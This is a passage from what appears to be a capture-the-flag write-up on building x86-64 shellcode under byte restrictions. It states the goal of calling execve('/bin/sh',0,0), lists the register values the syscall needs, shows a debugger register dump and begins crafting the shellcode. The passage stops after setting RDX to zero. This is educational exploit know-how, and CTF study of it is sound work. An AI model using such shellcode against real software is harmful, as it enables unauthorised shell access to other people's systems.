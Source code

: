 ![](https://i.imgur.com/wpSN1sc.png)
- These bytes also divisible by 5, so there's no issues while calling the syscall


#### Exploit structure

```c
execve('/bin/sh',0,0);
```
- Main goal of our shellcode is to call **execve** syscall with these arguments, so we can get  a shell

```css
rax: 0x3b      ; syscall number
rdi: '/bin/sh' ; first argument need to be a pointer to '/bin/sh'
rsi: 0         ; argv
rdx: 0         ; envp
```

- If we placed the above things correctly then we can call syscall to get shell :D
- Now let's try to craft this exploit


### Exploitation part

> Get intial register values

- Let's try to get some info about the available registers, so we can use already available values

```css
 RAX  0x0
 RBX  0x5555555552f0 (__libc_csu_init) ◂— endbr64
 RCX  0x7ffff7ec3603 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0xfac300 ◂— 0xa32 /* '2\n' */
 RDI  0x7ffff7fa6670 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7ffff7fa4743 (_IO_2_1_stdout_+131) ◂— 0xfa6670000000000a /* '\n' */
 R8   0x20
 R9   0x0
 R10  0x21
 R11  0x246
 R12  0x5555555550e0 (_start) ◂— endbr64
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe560 ◂— 0x0
*RSP  0x7fffffffe548 —▸ 0x5555555552e0 (main+279) ◂— mov    eax, 0
*RIP  0xfac300 ◂— 0xa32 /* '2\n' */
```

- `RAX, R9, R13, R14, R15`  are null
- So let's make use of it

#### Craft RDX = 0x0

```css
push rax
pop rdx
```
- rax is 0 so let's push that into stack and pop that into rdx
